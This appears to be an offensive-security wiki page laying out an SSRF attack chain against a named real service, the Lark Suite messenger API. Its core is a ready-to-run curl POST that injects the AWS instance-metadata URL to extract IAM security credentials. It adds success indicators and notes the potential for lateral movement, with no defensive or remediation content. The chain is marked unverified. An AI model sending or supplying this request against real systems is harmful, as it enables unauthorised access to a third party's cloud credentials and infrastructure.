

# SSRF in Lark Suite Messenger Endpoint Leading to Internal Credential Exposure

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- Lark Suite application with vulnerable messenger endpoint
- Network access to the public-facing Lark Suite API

### Initial Access Requirements

- No prior credentials required
- Ability to interact with the Lark Suite messenger endpoint (e.g., via API or web interface)
- Knowledge of internal metadata endpoints (e.g., AWS instance metadata)

## Detailed Attack Procedures

### Step 1: Exploit SSRF in Messenger Endpoint
procedure: [[procedures/Exploit-SSRF-in-Lark-Messenger-Endpoint]]

**Objective**: Force the Lark Suite server to make unauthorized requests to internal resources, exposing sensitive credentials.

**Instructions**: Interact with the messenger endpoint by crafting a request that includes a malicious URL pointing to internal services, such as AWS metadata. Use [[commands/curl-ssrf-lark]] to send the forged request:

```bash
curl -X POST 'https://api.larksuite.com/messenger/send' \
  -H 'Content-Type: application/json' \
  -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'
```

Monitor the response for leaked internal data.

**Expected Output**: Server response containing internal credential details or metadata.

**Success Indicators**:
- Response includes internal server data (e.g., IAM roles or credentials)
- No error indicating URL validation failure

## Attack Chain Summary

### Key Achievements

1. Successful SSRF exploitation via messenger endpoint
2. Exposure of internal credentials used by the Lark Suite server
3. Potential for further lateral movement if credentials are valid

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
